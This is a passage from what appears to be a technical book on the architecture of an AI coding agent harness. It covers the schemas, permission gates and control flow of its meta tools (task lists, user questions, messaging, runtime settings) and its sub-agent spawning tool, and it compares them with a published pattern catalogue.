- **Config** lets the agent inspect and mutate runtime settings without restarting, including model selection, permission modes, and feature toggles.
- **SendMessage** enables inter-agent communication within swarm teams, supporting both plain-text and structured lifecycle messages.

These tools map directly to HER's HITL design patterns (Section 11): confidence-based routing, tiered escalation, async approval, context-rich escalation, and handoff protocols. They also connect to Pattern 5 (Progressive Context Compaction) through the way TodoWrite collapses state and Brief proactively surfaces information that would otherwise be buried in tool output.

The meta tools occupy a unique position in the tool architecture. Unlike file tools or bash tools that act on the external world, these tools act on the session's internal state and the communication channels between agent, user, and teammates. They are the control surfaces of the harness, and their design determines how effectively a long-running agent can maintain alignment with human intent over hours of autonomous operation. A harness that lacks these tools degrades in predictable ways: without TodoWrite the agent loses track of its own plan across compaction events; without AskUserQuestion it cannot escalate uncertain decisions; without Brief it floods the user with unstructured output; without Config it cannot adapt to changing conditions mid-session; without SendMessage it cannot coordinate with parallel teammates. Each tool addresses a distinct failure mode of long-running autonomy.

## Data structures and contracts

### TodoWrite schemas

TodoWrite accepts a flat array of todo items, each with a status, a content description, and an optional activeForm. The key schema lives in `src/utils/todo/types.ts` and is referenced via `TodoListSchema`. The tool name constant (exported from `src/tools/TodoWriteTool/constants.ts`) is used throughout the dispatch pipeline. The tool is gated behind `isTodoV2Enabled()` -- when the v2 task system is active, TodoWrite is disabled in favor of the TaskCreate/TaskUpdate tool family:

```typescript
// src/tools/TodoWriteTool/TodoWriteTool.ts:L13-L17
const inputSchema = lazySchema(() =>
  z.strictObject({
    todos: TodoListSchema().describe('The updated todo list'),
  }),
)
```

The output schema records both old and new todo lists, plus a structural nudge flag that fires when the model completes tasks without verification:

```typescript
// src/tools/TodoWriteTool/TodoWriteTool.ts:L20-L26
const outputSchema = lazySchema(() =>
  z.object({
    oldTodos: TodoListSchema().describe('The todo list before the update'),
    newTodos: TodoListSchema().describe('The todo list after the update'),
    verificationNudgeNeeded: z.boolean().optional(),
  }),
)
```

The tool's prompt (`src/tools/TodoWriteTool/prompt.ts:L3-L184`) is unusually detailed at 184 lines, containing explicit guidance on when to use and when not to use the tool, worked examples with reasoning annotations, and strict rules about task states. The prompt mandates exactly one `in_progress` item at any time, requiring the model to serially complete tasks rather than marking multiple as in-progress simultaneously.

### AskUserQuestion schemas

AskUserQuestion models a multiple-choice dialog with 1-4 questions, each containing 2-4 options with label, description, and optional preview content. The schema enforces uniqueness constraints: question texts must be unique across the batch, and option labels must be unique within each question:

```typescript
// src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L14-L24
const questionOptionSchema = lazySchema(() => z.object({
  label: z.string().describe('The display text for this option that the user will see and select. Should be concise (1-5 words) and clearly describe the choice.'),
  description: z.string().describe('Explanation of what this option means or what will happen if chosen. Useful for providing context about trade-offs or implications.'),
  preview: z.string().optional().describe('Optional preview content rendered when this option is focused. Use for mockups, code snippets, or visual comparisons that help users compare options. See the tool description for the expected content format.')
}));
const questionSchema = lazySchema(() => z.object({
  question: z.string().describe('The complete question to ask the user. Should be clear, specific, and end with a question mark. Example: "Which library should we use for date formatting?" If multiSelect is true, phrase it accordingly, e.g. "Which features do you want to enable?"'),
  header: z.string().describe(`Very short label displayed as a chip/tag (max ${ASK_USER_QUESTION_TOOL_CHIP_WIDTH} chars). Examples: "Auth method", "Library", "Approach".`),
  options: z.array(questionOptionSchema()).min(2).max(4).describe(`The available choices for this question. Must have 2-4 options. Each option should be a distinct, mutually exclusive choice (unless multiSelect is enabled). There should be no 'Other' option, that will be provided automatically.`),
  multiSelect: z.boolean().default(false).describe('Set to true to allow the user to select multiple options instead of just one. Use when choices are not mutually exclusive.')
}));
```

The annotations schema supports per-question metadata from the user, including selected preview content and free-text notes. The `metadata.source` field enables analytics tracking of where a question originated (e.g., the `/remember` command). The preview feature supports two formats: markdown (for terminal rendering) and HTML (for bridge/desktop viewers), validated by the `validateHtmlPreview()` function which rejects full documents, script/style tags, and non-HTML content.

### Brief (SendUserMessage) schema

Brief takes a markdown message, optional file attachments, and a status label distinguishing proactive from normal communication. The attachments field accepts file paths (absolute or cwd-relative) for images, diffs, logs, or any file the user should see alongside the message:

```typescript
// src/tools/BriefTool/BriefTool.ts:L20-L37
const inputSchema = lazySchema(() =>
  z.strictObject({
    message: z
      .string()
      .describe('The message for the user. Supports markdown formatting.'),
    attachments: z
      .array(z.string())
      .optional()
      .describe(
        'Optional file paths (absolute or relative to cwd) to attach. Use for photos, screenshots, diffs, logs, or any file the user should see alongside your message.',
      ),
    status: z
      .enum(['normal', 'proactive'])
      .describe(
        "Use 'proactive' when you're surfacing something the user hasn't asked for and needs to see now — task completion while they're away, a blocker you hit, an unsolicited status update. Use 'normal' when replying to something the user just said.",
      ),
  }),
)
```

The attachment resolution pipeline (`src/tools/BriefTool/attachments.ts:L63-L110`) validates paths exist and are regular files, then optionally uploads them to the bridge API for web viewers. The `ResolvedAttachment` type carries `path`, `size`, `isImage`, and an optional `file_uuid` for bridge-mediated preview. The upload is best-effort: failures silently degrade to local-only rendering.

### Config schema

Config takes a setting key and an optional new value. Omitting the value triggers a read operation. The output includes success/failure status, the operation type, and for writes the previous and new values:

```typescript
// src/tools/ConfigTool/ConfigTool.ts:L36-L62
const inputSchema = lazySchema(() =>
  z.strictObject({
    setting: z
      .string()
      .describe(
        'The setting key (e.g., "theme", "model", "permissions.defaultMode")',
      ),
    value: z
      .union([z.string(), z.boolean(), z.number()])
      .optional()
      .describe('The new value. Omit to get current value.'),
  }),
)
const outputSchema = lazySchema(() =>
  z.object({
    success: z.boolean(),
    operation: z.enum(['get', 'set']).optional(),
    setting: z.string().optional(),
    value: z.unknown().optional(),
    previousValue: z.unknown().optional(),
    newValue: z.unknown().optional(),
    error: z.string().optional(),
  }),
)
```

The supported settings registry in `src/tools/ConfigTool/supportedSettings.ts:L29-L186` defines 20+ settings split between global (`~/.claude.json`) and project (`settings.json`) sources. Each setting has a `SettingConfig` with type, description, options, validation, and an optional `appStateKey` for immediate UI sync.

### SendMessage schema

SendMessage routes messages to teammates by name, broadcasts with `*`, or targets cross-session peers via UDS sockets or bridge sessions. The tool name constant `SEND_MESSAGE_TOOL_NAME` is defined in `src/tools/SendMessageTool/constants.ts` and referenced by the dispatch pipeline for permission evaluation. The structured message protocol supports shutdown_request, shutdown_response, and plan_approval_response for lifecycle management:

```typescript
// src/tools/SendMessageTool/SendMessageTool.ts:L46-L65
const StructuredMessage = lazySchema(() =>
  z.discriminatedUnion('type', [
    z.object({ type: z.literal('shutdown_request'), reason: z.string().optional() }),
    z.object({ type: z.literal('shutdown_response'), request_id: z.string(),
      approve: semanticBoolean(), reason: z.string().optional() }),
    z.object({ type: z.literal('plan_approval_response'), request_id: z.string(),
      approve: semanticBoolean(), feedback: z.string().optional() }),
  ]),
)
```

The `to` field supports four address types: teammate name (direct), `*` (broadcast), `uds:<socket-path>` (local peer), and `bridge:<session-id>` (cross-machine peer). The `summary` field is required for plain-text messages to provide a 5-10 word preview in the UI, but is optional for UDS and structured messages. The routing logic determines which path to use based on prefix matching: `uds:` and `bridge:` prefixes trigger their respective handlers, `*` triggers broadcast, and anything else is treated as a teammate name lookup.

## Control flow

### TodoWrite lifecycle

TodoWrite stores todos per agent in `appState.todos`, keyed by `agentId` or `sessionId`. When all items complete, the list auto-clears. A verification nudge fires when the main-thread agent closes out 3+ items without any verification step, emitting a reminder to spawn the verification subagent before writing the final summary:

```typescript
// src/tools/TodoWriteTool/TodoWriteTool.ts:L65-L103
async call({ todos }, context) {
  const appState = context.getAppState()
  const todoKey = context.agentId ?? getSessionId()
  const oldTodos = appState.todos[todoKey] ?? []
  const allDone = todos.every(_ => _.status === 'completed')
  const newTodos = allDone ? [] : todos

  let verificationNudgeNeeded = false
  if (
    feature('VERIFICATION_AGENT') &&
    getFeatureValue_CACHED_MAY_BE_STALE('tengu_hive_evidence', false) &&
    !context.agentId &&
    allDone &&
    todos.length >= 3 &&
    !todos.some(t => /verif/i.test(t.content))
  ) {
    verificationNudgeNeeded = true
  }

  context.setAppState(prev => ({
    ...prev,
    todos: { ...prev.todos, [todoKey]: newTodos },
  }))

  return { data: { oldTodos, newTodos: todos, verificationNudgeNeeded } }
},
```

The nudge is appended to the tool result via `mapToolResultToToolResultBlockParam` (`src/tools/TodoWriteTool/TodoWriteTool.ts:L104-L114`), which adds a NOTE block reminding the model that only the verification agent can issue a PARTIAL verdict. This design targets the exact loop-exit moment where quality shortcuts happen: the model completes its task list and exits without verifying its work.

```mermaid
stateDiagram-v2
    [*] --> Pending: TodoWrite creates item
    Pending --> InProgress: Agent starts work
    InProgress --> Completed: Task fully done
    Completed --> [*]: Auto-cleared when all done
    InProgress --> Pending: Blocked, new subtask discovered
    Completed --> Pending: Tests failing, reopen task
```

### AskUserQuestion interrupt flow

AskUserQuestion marks itself as `requiresUserInteraction: true`, which causes the tool dispatch pipeline to pause the query loop and surface a multiple-choice UI. The permission check always returns `behavior: 'ask'`, ensuring the user must explicitly approve or decline:

```typescript
// src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L182-L188
async checkPermissions(input) {
  return {
    behavior: 'ask' as const,
    message: 'Answer questions?',
    updatedInput: input
  }
},
```

When KAIROS channels are active (Telegram/Discord), AskUserQuestion is disabled entirely since nobody is at the keyboard to answer a multiple-choice dialog. This is a deliberate design choice: the channel permission relay already skips `requiresUserInteraction()` tools, so there is no alternate approval path:

```typescript
// src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L135-L145
isEnabled() {
  if (
    (feature('KAIROS') || feature('KAIROS_CHANNELS')) &&
    getAllowedChannels().length > 0
  ) {
    return false
  }
  return true
},
```

The tool also declares `isConcurrencySafe: true` and `isReadOnly: true`, meaning it can be called in parallel with other read-only tools and does not modify filesystem state. The `shouldDefer: true` flag means the tool is not included in the initial prompt but is loaded on demand via ToolSearch.

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant AUQ as AskUserQuestion
    participant UI as Permission UI
    participant User

    QL->>AUQ: call(questions)
    AUQ->>UI: requiresUserInteraction=true
    UI->>User: Display multiple-choice dialog
    User->>UI: Select answers + optional notes
    UI->>AUQ: answers + annotations
    AUQ->>QL: Tool result with user answers
```

### Brief activation gate

Brief is gated by a two-layer entitlement system. `isBriefEntitled()` (`src/tools/BriefTool/BriefTool.ts:L88-L100`) checks build-time feature flags and GrowthBook kill-switches. `isBriefEnabled()` additionally requires explicit opt-in (CLI flag, settings, or slash command). Assistant mode (Kairos) bypasses opt-in since its system prompt hard-codes Brief usage:

```typescript
// src/tools/BriefTool/BriefTool.ts:L126-L134
export function isBriefEnabled(): boolean {
  return feature('KAIROS') || feature('KAIROS_BRIEF')
    ? (getKairosActive() || getUserMsgOptIn()) && isBriefEntitled()
    : false
}
```

The top-level `feature()` guard is load-bearing for dead code elimination (DCE): Bun can constant-fold the ternary to `false` in external builds, eliminating the entire BriefTool object from the binary. The `KAIROS_BRIEF_REFRESH_MS` constant (`src/tools/BriefTool/BriefTool.ts:L67`) sets a 5-minute refresh cycle on the GrowthBook kill-switch, meaning a disabled tool is at most 5 minutes stale.

Brief's prompt (`src/tools/BriefTool/prompt.ts:L1-L23`) enforces a communication discipline: every reply the user should read goes through Brief, not raw assistant text. The `status: 'proactive'` field routes messages differently in the UI, triggering push notifications and surfacing in the chat view without a preceding user message.

### Config read/write flow

ConfigTool supports both get and set operations. Read operations are auto-allowed; writes require explicit permission approval. The tool handles type coercion for boolean settings (accepting string "true"/"false"), option validation for enum settings, and async validation for settings like model that need API checks:

```typescript
// src/tools/ConfigTool/ConfigTool.ts:L98-L107
async checkPermissions(input: Input) {
  if (input.value === undefined) {
    return { behavior: 'allow' as const, updatedInput: input }
  }
  return {
    behavior: 'ask' as const,
    message: `Set ${input.setting} to ${jsonStringify(input.value)}`,
  }
},
```

The `call()` method (`src/tools/ConfigTool/ConfigTool.ts:L111-L411`) is the most complex of the five meta tools, spanning 300 lines. It handles seven distinct code paths: unknown setting rejection, GET operation, default value handling (for `remoteControlAtStartup`), boolean coercion, option validation, async validation (model API check), and voice preflight checks. The boolean coercion path is noteworthy: settings like `verbose` accept string "true"/"false" from the CLI and must be converted to native booleans before writing. The option validation path uses `getOptionsForSetting()` to retrieve the allowed enum values and rejects any value not in the set. The async validation path for the `model` setting calls the Anthropic API to verify the model identifier exists, preventing the model from switching to a nonexistent model and then failing on every subsequent request. After writing to storage, it syncs to AppState via the `config.appStateKey` mechanism, which causes immediate UI updates without requiring a restart.

### SendMessage routing

SendMessage supports four routing paths with distinct validation rules. Direct teammate messages require a `summary` field. Broadcasts cannot carry structured messages. UDS and bridge targets have special validation for address format and connection state. The `handleMessage()` function (`src/tools/SendMessageTool/SendMessageTool.ts:L149-L189`) writes to the teammate's mailbox, while `handleBroadcast()` (`src/tools/SendMessageTool/SendMessageTool.ts:L191-L266`) iterates over the team file to deliver to all members except the sender.

The shutdown lifecycle is the most complex path. A `shutdown_request` from the team lead writes a structured message to the target's mailbox. The target responds with a `shutdown_response` that either approves (triggering `handleShutdownApproval()` which aborts the agent's controller) or rejects (sending a reason back to the lead). The plan approval protocol follows a similar request/response pattern, but only the team lead can approve or reject plans. Broadcast messages iterate over the team file (a JSON document listing all active teammates and their status) and deliver to each member except the sender. The broadcast path does not support structured messages -- a deliberate restriction that prevents a single broadcast from triggering N shutdown requests, which could cascade unpredictably through the team.

## Edge cases and failure modes

- **TodoWrite verification nudge bypass**: If the model marks all tasks completed without any verification step, the nudge reminds it to spawn a verification subagent. However, the nudge is advisory; the model can ignore it and exit the loop anyway. The nudge fires at the exact moment where quality shortcuts are most likely: the model has completed its work and is about to write its summary.
- **AskUserQuestion channel disable**: When KAIROS channels are active, AskUserQuestion is disabled because the user is likely on Telegram/Discord, not watching the TUI. Channel permission relay already skips `requiresUserInteraction()` tools, so there is no alternate approval path. This means agents running in channel mode cannot ask clarifying questions and must proceed with their best judgment.
- **Brief entitlement vs. activation gap**: A user can be entitled (enrolled in the GrowthBook experiment) but not activated (hasn't opted in). The tool is invisible until the user takes an activation action (`--brief` flag, `defaultView: 'chat'` setting, or `/brief` slash command). The `CLAUDE_CODE_BRIEF` environment variable force-grants both entitlement and activation for dev/testing.
- **Brief attachment upload failure**: Upload to the bridge API (`src/tools/BriefTool/upload.ts:L92-L174`) is best-effort. If the OAuth token is missing, the bridge is off, or the network errors, the attachment still carries `{path, size, isImage}` for local renderers. The file_uuid is left undefined. The upload is gated behind `feature('BRIDGE_MODE')` for DCE, and a dynamic import of the upload module ensures axios and crypto are not bundled in non-bridge builds.
- **Config voice preflight**: Setting `voiceEnabled: true` triggers a multi-step preflight check (`src/tools/ConfigTool/ConfigTool.ts:L232-L308`): recording availability, voice stream availability, dependency check, and microphone permission request. Any failure returns a specific error message guiding the user to fix the issue (e.g., "Settings > Privacy > Microphone" on macOS).
- **SendMessage cross-machine safety**: Bridge-targeted messages require explicit user consent and are immune to bypassPermissions and auto-mode classifiers. The `decisionReason: { type: 'safetyCheck', classifierApprovable: false }` in `src/tools/SendMessageTool/SendMessageTool.ts:L586-L601` ensures cross-machine prompt injection vectors cannot auto-approve, even when the user has set `bypassPermissions: true`.
- **SendMessage auto-resume**: When a message targets a stopped agent, SendMessage attempts `resumeAgentBackground()` (`src/tools/SendMessageTool/SendMessageTool.ts:L823-L845`) to restart it. If the agent has no transcript to resume, the send fails with a specific error explaining the agent was registered but has no transcript to resume.
- **Config stale cache on resume**: Resumed sessions replay pre-attachment Brief outputs verbatim. A required `attachments` field would crash the UI renderer on resume, so attachments remain optional in the output schema.

## Where cc diverges from the published pattern

**HER Section 11 describes confidence-based routing** where the agent self-assesses confidence and routes decisions to humans when below threshold. cc's AskUserQuestion implements a simpler model: the model decides to call the tool (an implicit confidence assessment) rather than having a deterministic routing layer. There is no numeric confidence threshold; the model uses its own judgment about when to escalate. This is a deliberate tradeoff: deterministic routing requires a calibrated confidence signal from the model, which is unreliable for current-generation LLMs.

**HER Section 11.3 describes async approval** where the agent parks a blocked action and continues with other work. cc's implementation does not support this pattern for AskUserQuestion. When the tool fires, the query loop blocks until the user responds. True async approval exists only in the SendMessage shutdown_request/response protocol, where a teammate can reject a shutdown and continue working. For a CLI agent, blocking on user input is acceptable because the user is typically watching the terminal. For a headless agent, AskUserQuestion is disabled entirely.

**HER Section 11.4 prescribes context-rich escalation** with structured handoff documents containing what was tried, why it failed, and what options exist. Brief's `status: 'proactive'` field partially addresses this by distinguishing proactive from reactive messages, but there is no structured handoff document format. The model generates free-form markdown. The prompt does guide the model toward context-rich communication (ack, work, result, with checkpoints at decision boundaries), but this is advisory, not enforced by the tool schema.

**HER Section 11.5 describes handoff protocols** with full context transfer, incremental review, and checkpoint reviews at 25% and 75% completion. cc has no formal handoff protocol. TodoWrite provides a structured task list that could serve as a handoff document, but the model is not required to produce one at session boundaries. The todo list is not automatically included in the next session's context.

**HER Pattern 5 (Progressive Context Compaction)** suggests TodoWrite-style planning as a compaction mechanism. cc implements this: the todo list lives in AppState (not in the conversation), so it survives compaction events. However, cc does not automatically compact the todo list itself; stale items persist until the model explicitly updates them. A more aggressive implementation would auto-archive completed items and summarize stale in-progress items after a timeout.

## Developer takeaways for building a long-running agent

1. **Separate the output channel from raw model text.** Brief replaces unconstrained assistant text with a structured tool that enforces markdown formatting, attachment handling, and proactive/reactive labeling. The UI layer hides raw assistant text when a Brief message is present, making enforcement structural rather than prompt-based.

2. **Make HITL gates explicit in the tool contract.** AskUserQuestion's `requiresUserInteraction: true` and `checkPermissions: { behavior: 'ask' }` ensure the query loop cannot bypass the user. Every tool involving human judgment should declare this requirement in its type definition.

3. **Use feature flags and kill-switches for incremental rollout.** Brief's two-layer gate (entitlement + activation) with a GrowthBook kill-switch and 5-minute refresh cycle demonstrates safe incremental shipping. The `feature()` guard enables DCE, removing the entire tool from the binary when off.

4. **Design inter-agent messaging with structured lifecycle protocols.** SendMessage's discriminated union of shutdown_request/response and plan_approval_response provides typed, validated schemas with request IDs for correlation. The `semanticBoolean()` type prevents ambiguous approval values.

5. **Auto-clear completed state to prevent context bloat.** TodoWrite clears the list when all items complete, and the verification nudge injects a corrective signal at the moment quality shortcuts are most likely. Every piece of persistent state should have a natural expiration mechanism.

6. **Gate cross-machine communication behind safety checks.** Bridge-targeted messages use `decisionReason: { type: 'safetyCheck', classifierApprovable: false }`, making them immune to auto-approval even when `bypassPermissions` is set.
# Part IV. Sub-Agents, Tasks, and Multi-Agent Dispatch

A single agent running a single query loop can accomplish a great deal, but the most demanding workflows require coordination among multiple agents operating concurrently. Part IV covers cc's multi-agent architecture: from the Agent Tool that spawns sub-agents, through the three execution modes, to the coordinator that orchestrates swarms and the task system that tracks durable units of work.

The theme of Part IV is multi-agent dispatch and coordination. These seven chapters are grouped together because they form the complete multi-agent subsystem: the Agent Tool provides the interface, the execution modes determine how sub-agents run, the coordinator orchestrates teams, tasks provide durable tracking, teammates enable in-process collaboration, and dream tasks perform background consolidation. Together, they represent cc's answer to the challenge of scaling beyond a single agent -- a challenge that HER addresses in its discussion of three tiers of multi-agent orchestration and the Generator-Evaluator pattern.

Multi-agent dispatch is where cc's architecture becomes genuinely novel. Most agent frameworks treat sub-agent spawning as an afterthought -- a simple function call that creates a child process. cc treats it as a first-class concern with three distinct execution modes (sync, fork, and remote), a durable task tracking system, a team coordination layer, and a background consolidation mechanism. This sophistication reflects hard-won experience: naive sub-agent implementations quickly run into context anxiety (failure mode 6.5), tool explosion (failure mode 6.8), and checkpoint-restore side effects (failure mode 6.16).

Chapter 18 examines the Agent Tool surface -- its input schema (description, prompt, subagent_type, model, run_in_background, team_name, mode, isolation, cwd), validation, and output return. The Agent Tool is the single entry point through which all sub-agents are spawned, and its input schema reveals the design space that cc has chosen to support.

Chapter 19 compares the three execution modes: in-process sync agents, forked subagents, and remote CCR agents, including their tradeoffs in shared versus isolated state and communication paths. The choice of execution mode determines whether the sub-agent shares the parent's context (sync), gets a forked copy (fork), or runs on a completely separate machine (remote). Each mode has distinct implications for latency, isolation, and resource consumption.

Chapter 20 covers how cc discovers and loads agent definitions from `~/.claude/agents`, plugin agents, and built-ins, with the Markdown plus YAML frontmatter contract. Agent definitions are the configuration surface that determines what sub-agents are available and how they are initialized. Understanding this discovery mechanism is essential for anyone extending cc with custom agents.

Chapter 21 explores the feature-gated `coordinator/coordinatorMode.ts` -- how multi-agent swarms are orchestrated, message routing, and team lifecycle. The coordinator is cc's most ambitious multi-agent feature: it manages teams of agents that can communicate via file-based message passing, enabling collaborative workflows that no single agent could accomplish alone.

Chapter 22 dissects the task system: task records, status transitions, blocking relationships, filesystem locking, storage paths, high-water mark, and the seven task types. Tasks are the durable unit of work that survives across agent lifetimes. They implement the one-task-per-session rule documented in HER and the three-file state pattern that ensures consistency even in the face of crashes.

Chapter 23 covers tmux-based teammates, in-process teammate tasks, `SendMessageTool`, and idle hooks. Teammates are long-running sub-agents that persist for the duration of a session, communicating via SendMessage and coordinating through shared workspace state. They represent the in-process tier of cc's three-tier multi-agent architecture.

Chapter 24 examines `DreamTask` and `autoDream` -- the background memory consolidation loop, firing conditions, and interaction with the memory subsystem. Dream tasks are cc's implementation of HER's Pattern 4 (Dream Consolidation): when the agent is idle, a background process reviews recent activity, extracts memories, and consolidates them into the memdir store. This is the mechanism by which cc learns from its own experience within a session.

By the end of this Part, you should understand how cc spawns, manages, and coordinates multiple concurrent agents; how tasks provide durable tracking across agent lifetimes; how teammates communicate within a session; and how dream tasks perform background consolidation when the agent is idle. This understanding is essential for Part V (which covers the memory system that dream tasks write to), Part VIII (which covers long-running work patterns), and Part X (which evaluates cc's multi-agent architecture against HER's patterns).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# The Agent Tool: Entry, Inputs, and Lifecycle

## Overview

The AgentTool is the single entry point for spawning subagents within cc. It is the mechanism by which the parent agent delegates work to isolated context windows, whether in-process (sync), forked, or remote. The tool accepts a rich input schema that controls the subagent's identity, capabilities, execution mode, and isolation level. Understanding its input validation, dispatch selection, and output handling is essential for anyone building multi-agent orchestrations on top of cc.

This chapter examines the AgentTool's surface: its Zod-defined input schema, how each field shapes the subagent's behavior, the validation logic that gates execution, and the output formats that report results back to the parent. Chapters 19 and 20 cover the three execution modes and agent discovery, respectively.

The AgentTool maps to HER Section 7.4 (Sub-Agents as a Configuration Surface), which describes subagents as "context firewalls" that use expensive models for orchestration and cheaper models for subtasks. It also connects to Pattern 7 (Context-Isolated Subagents) and Pattern 8 (Fork-Join Parallelism).

## Data structures and contracts

### Input schema

The AgentTool input schema is assembled from a base schema and a multi-agent extension, conditionally omitting fields based on feature gates. The base schema captures the four fields every agent invocation needs:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L82-L88
const baseInputSchema = lazySchema(() => z.object({
  description: z.string().describe('A short (3-5 word) description of the task'),
  prompt: z.string().describe('The task for the agent to perform'),
  subagent_type: z.string().optional().describe('The type of specialized agent to use for this task'),
  model: z.enum(['sonnet', 'opus', 'haiku']).optional().describe("Optional model override for this agent. Takes precedence over the agent definition's model frontmatter. If omitted, uses the agent definition's model, or inherits from the parent."),
  run_in_background: z.boolean().optional().describe('Set to true to run this agent in the background. You will be notified when it completes.')
}));
```

The `description` field is surfaced to the user as a task label in the terminal UI and persisted in the `LocalAgentTaskState` record. The `prompt` is the full task directive passed as the initial user message. The `subagent_type` selects from the catalog of agent definitions (Chapter 20). When omitted and the fork experiment is active, the tool routes to the implicit fork path instead of the general-purpose agent.

The full schema adds multi-agent and isolation parameters that enable in-process teammate spawning and worktree isolation:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L91-L102
const fullInputSchema = lazySchema(() => {
  // Multi-agent parameters
  const multiAgentInputSchema = z.object({
    name: z.string().optional().describe('Name for the spawned agent. Makes it addressable via SendMessage({to: name}) while running.'),
    team_name: z.string().optional().describe('Team name for spawning. Uses current team context if omitted.'),
    mode: permissionModeSchema().optional().describe('Permission mode for spawned teammate (e.g., "plan" to require plan approval).')
  });
  return baseInputSchema().merge(multiAgentInputSchema).extend({
    isolation: ("external" === 'ant' ? z.enum(['worktree', 'remote']) : z.enum(['worktree'])).optional().describe("external" === 'ant' ? 'Isolation mode. "worktree" creates a temporary git worktree so the agent works on an isolated copy of the repo. "remote" launches the agent in a remote CCR environment (always runs in background).' : 'Isolation mode. "worktree" creates a temporary git worktree so the agent works on an isolated copy of the repo.'),
    cwd: z.string().optional().describe('Absolute path to run the agent in. Overrides the working directory for all filesystem and shell operations within this agent. Mutually exclusive with isolation: "worktree".')
  });
});
```

The `name` field makes the spawned agent addressable via the SendMessage tool (Chapter 17), enabling bidirectional communication between the parent and a running subagent. The `team_name` associates the agent with a coordination group managed by the swarm coordinator (Chapter 21). The `mode` parameter sets the permission mode for the spawned teammate independently of the parent's mode, allowing a parent in `bypassPermissions` to spawn a child in `plan` mode for safety-critical review tasks. The `isolation` field creates a temporary git worktree so the subagent operates on an isolated copy of the repository. The `cwd` field overrides the working directory for all filesystem and shell operations.

The schema is conditionally trimmed at module load time based on feature flags. This approach ensures the model never sees parameters it cannot use, preventing hallucinated tool calls with ignored parameters:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L110-L125
export const inputSchema = lazySchema(() => {
  const schema = feature('KAIROS') ? fullInputSchema() : fullInputSchema().omit({
    cwd: true
  });

  // GrowthBook-in-lazySchema is acceptable here (unlike subagent_type, which
  // was removed in 906da6c723): the divergence window is one-session-per-
  // gate-flip via _CACHED_MAY_BE_STALE disk read, and worst case is either
  // "schema shows a no-op param" (gate flips on mid-session: param ignored
  // by forceAsync) or "schema hides a param that would've worked" (gate
  // flips off mid-session: everything still runs async via memoized
  // forceAsync). No Zod rejection, no crash — unlike required→optional.
  return isBackgroundTasksDisabled || isForkSubagentEnabled() ? schema.omit({
    run_in_background: true
  }) : schema;
});
```

The `lazySchema` wrapper defers evaluation until the first tool call, ensuring that GrowthBook flags are populated before schema construction. This is important because the `isForkSubagentEnabled()` check inside the schema depends on runtime feature flags that are not available at module load time. The divergence window is limited to one session per gate flip (via `_CACHED_MAY_BE_STALE` disk read), and the worst case is either "schema shows a no-op param" (gate flips on mid-session, param ignored by forceAsync) or "schema hides a param that would have worked" (gate flips off mid-session, everything still runs async via memoized forceAsync). No Zod rejection or crash results from a mid-session gate flip.

The explicit `AgentToolInput` type widens the Zod schema inference to always include all optional fields, even when `.omit()` strips them for gating. This prevents TypeScript from narrowing the type in `call()` based on whether a field was present in the schema at the time of inference:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L132-L138
type AgentToolInput = z.infer<ReturnType<typeof baseInputSchema>> & {
  name?: string;
  team_name?: string;
  mode?: z.infer<ReturnType<typeof permissionModeSchema>>;
  isolation?: 'worktree' | 'remote';
  cwd?: string;
};
```

```mermaid
classDiagram
    class BaseInputSchema {
      +description: string
      +prompt: string
      +subagent_type?: string
      +model?: sonnet|opus|haiku
      +run_in_background?: boolean
    }
    class MultiAgentInputSchema {
      +name?: string
      +team_name?: string
      +mode?: PermissionMode
    }
    class FullInputSchema {
      +isolation?: worktree|remote
      +cwd?: string
    }
    class InputSchema {
      +conditional omit: cwd, run_in_background
    }
    BaseInputSchema <|-- FullInputSchema : extends
    MultiAgentInputSchema <-- FullInputSchema : merge
    FullInputSchema <|-- InputSchema : omit() gating
    InputSchema : lazySchema wrapper
    InputSchema : feature flag conditional
```

### Output schema

The output is a discriminated union: either the subagent completed synchronously, or it was launched asynchronously. This pattern allows callers to handle each case with type-safe pattern matching rather than checking nullable fields:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L141-L155
export const outputSchema = lazySchema(() => {
  const syncOutputSchema = agentToolResultSchema().extend({
    status: z.literal('completed'),
    prompt: z.string()
  });
  const asyncOutputSchema = z.object({
    status: z.literal('async_launched'),
    agentId: z.string().describe('The ID of the async agent'),
    description: z.string().describe('The description of the task'),
    prompt: z.string().describe('The prompt for the agent'),
    outputFile: z.string().describe('Path to the output file for checking agent progress'),
    canReadOutputFile: z.boolean().optional().describe('Whether the calling agent has Read/Bash tools to check progress')
  });
  return z.union([syncOutputSchema, asyncOutputSchema]);
});
```

Internal (non-schema) output types include `teammate_spawned` and `remote_launched` for multi-agent and CCR dispatch paths. These are excluded from the Zod schema for dead code elimination: the model never sees them, so they do not appear in the tool's output type definition sent to the API:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L161-L190
type TeammateSpawnedOutput = {
  status: 'teammate_spawned';
  prompt: string;
  teammate_id: string;
  agent_id: string;
  agent_type?: string;
  model?: string;
  name: string;
  color?: string;
  tmux_session_name: string;
  tmux_window_name: string;
  tmux_pane_id: string;
  team_name?: string;
  is_splitpane?: boolean;
  plan_mode_required?: boolean;
};

export type RemoteLaunchedOutput = {
  status: 'remote_launched';
  taskId: string;
  sessionUrl: string;
  description: string;
  prompt: string;
  outputFile: string;
};
```

The separation between public schema types and internal types is a deliberate design choice. The public schema (what the model sees) is minimal and stable. The internal types carry rich metadata (tmux session names, pane IDs, plan mode flags) that the UI needs but the model does not. This reduces the token cost of the tool definition in every API request.

```mermaid
classDiagram
    class OutputSchema {
        +status: completed | async_launched
    }
    class SyncOutput {
        +status: completed
        +prompt: string
        +agentToolResult
    }
    class AsyncOutput {
        +status: async_launched
        +agentId: string
        +description: string
        +outputFile: string
        +canReadOutputFile?: boolean
    }
    class TeammateSpawnedOutput {
        +status: teammate_spawned
        +teammate_id: string
        +agent_type?: string
        +model?: string
        +tmux_session_name: string
        +plan_mode_required?: boolean
    }
    class RemoteLaunchedOutput {
        +status: remote_launched
        +taskId: string
        +sessionUrl: string
    }
    OutputSchema <|-- SyncOutput
    OutputSchema <|-- AsyncOutput
    SyncOutput : Public schema
    AsyncOutput : Public schema
    TeammateSpawnedOutput : Internal only
    RemoteLaunchedOutput : Internal only
```

### AgentDefinition type

